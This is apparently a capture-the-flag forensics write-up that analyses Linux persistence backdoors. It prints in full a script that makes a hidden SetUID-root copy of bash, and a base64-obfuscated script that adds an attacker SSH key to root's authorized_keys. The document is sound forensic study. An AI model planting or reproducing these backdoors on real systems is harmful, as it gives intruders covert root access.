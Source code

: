There are a few things that I don’t recognize from my familiarity with linux: access-up and pyssh. So let’s investigate those further.
access-up

#!/bin/bash
DIRS=("/bin" "/sbin")
DIR=${DIRS[$[ $RANDOM % 2 ]]}

while : ; do
    NEW_UUID=$(cat /dev/urandom | tr -dc 'a-z' | fold -w 6 | head -n 1)
    [[ -f "{$DIR}/${NEW_UUID}" ]] || break
done

cp /bin/bash ${DIR}/${NEW_UUID}
touch ${DIR}/${NEW_UUID} -r /bin/bash
chmod 4755 ${DIR}/${NEW_UUID}

This is a really cool (and by “cool”, I of course mean DANGEROUS) bash script. Here’s what it’s doing line by line. First we define “DIRS” as either /bin or /sbin. Then we’re going to define another variable DIR that is going to divide a random number by 2, and if it has a remainder (i.e. it’s odd) we’ll use /sbin and if has no remainder we use /bin (2 % 2 = 0, 3 % 2 = 1). After that, it generates a random number via /dev/urandom and then converts the random number to alphabetic characters (a-z). So let’s say it generates the number “21312566”, then it will convert it to something like “folofwtt” then use fold -w 6 to take the first 6 characters, leaving us with “folofw” as our potential file name.

Once it’s generated a file name, it runs cp /bin/bash ${DIR}/${NEW_UUID} to essentially copy the bash shell into whatever DIR it landed on (/bin or /sbin) and then naming it according to the random name that was generated. So in my example, /bin/folofwtt actually is the same binary as /bin/bash. SPOOKY. The very last line is the most important part of this little script though. chmod 4755 is a huge red flag because the 4 means we’re giving this binary SetUID permission… aka root permission!. So if I, Joe Hacker, was to execute the random binary we generated (/bin/folofwtt) it would actually spawn an instance of /bin/bash owned by the user root. Yeah… big yikes here, so we DEFINITELY want to delete this script.
pyssh

#!/bin/sh

VER=$(python3 -c 'import ssh_import_id; print(ssh_import_id.VERSION)')
MAJOR=$(echo $VER | cut -d'.' -f1)

if [ $MAJOR -le 6 ]; then
    /lib/python3/dist-packages/ssh_import_id_update
fi

This script looks to be using a python module called ssh_import_id_update to do something. Investigating this file further:

#!/bin/bash
KEY=$(echo "c3NoLWVkMjU1MTkgQUFBQUMzTnphQzFsWkRJMU5URTVBQUFBSUhSZHg1UnE1K09icTY2Y3l3ejVLVzlvZlZtME5DWjM5RVBEQTJDSkRxeDEgbm9ib2R5QG5vdGhpbmcK" | base64 -d)
PATH=$(echo "L3Jvb3QvLnNzaC9hdXRob3JpemVkX2tleXMK" | base64 -d)

/bin/grep -q "$KEY" "$PATH" || echo "$KEY" >> "$PATH"

This script is adding whatever KEY is to PATH. They’re base64 encoded so let’s just run the commands and see what’s inside: /images/htb/challenges/forensics/persistenceisfutile/key.png /images/htb/challenges/forensics/persistenceisfutile/path.png
